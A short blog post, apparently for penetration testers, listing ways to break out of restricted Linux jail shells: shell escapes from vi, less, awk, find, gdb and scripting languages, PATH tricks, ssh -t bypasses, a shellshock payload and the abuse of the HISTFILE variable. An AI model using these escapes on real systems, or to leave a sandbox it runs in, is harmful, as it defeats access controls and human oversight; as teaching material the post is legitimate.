 ```yaml
---
layout: default
title: "Breaking out of jail shells"
---
```

This is a quick post on breaking out of linux jail/restricted shells.

Always run your reconnaissance!  

* Run **env** to list out exported environment variables.
* **echo $SHELL** what shell are we in?
* **echo $PATH** what is our path set to?
* Can you just exploit a running process to escalate privileges and not need to escape out of your shell?
* Run some basic commands what is and isn\'t allowed? **ls,pwd,cp,mv,env,set,export,vi,\.\.\.**  

Quick wins from jail  

* Can you run **cp**? Just copy a file into your path.
  * **`cp /bin/sh /a/dir/from/path; sh`**
* Is \'/\' allowed?
  * Run **`/bin/sh`**
* Can you use **export**?
  * **`export PATH=/bin:/usr/bin:$PATH`**
  * **`export SHELL=/bin/sh`**
* Do you have access to commands that let you execute different system commands?
  * **ftp: `!/bin/sh`**
  * **gdb: `!/bin/sh`**
  * **more/less/man: `?!/bin/sh`**
  * **vi/vim: `:!/bin/sh`**
  * **scp: `scp -S /tmp/naughty.sh x y:`**
  * **awk: `awk 'BEGIN {system('/bin/sh')}'`**
  * **find `find / -name something -exec /bin/sh \;`**
* Don\'t forget about your favorite language!
  * **python: `python -c 'import os; os.system("/bin/bash")'`**
  * **perl: `perl exec "/bin/sh";`**
  * **ruby: `ruby exec "/bin/sh"`**
  * **lua: `lua os.execute('/bin/sh')`**  

Quick wins from outside jail  

* Just execute commands before your shell is loaded.
  * **`ssh user@10.10.10.10 -t "/bin/sh"`**
* Don\'t start the rc profile
  * **`ssh user@10.10.10.10 -t "bash --noprofile"`**
* Try shellshock
  * **`ssh user@10.10.10.10 -t "() { :; }; /bin/bash"`**  

Getting creative  

* Using **tee** to write a script.
  * **`echo 'evil code' | tee script.sh`**
* History file
  * Set **HISTFILE** variable to a file you want to overwrite
  * Set **HISTSIZE** variable to **0** then immediately to **100**
  * Execute lines that should be written to your file
  * Log out and back in again.

Looking for more ways? [Check out this resource here!](http://bfy.tw/8Lq2)
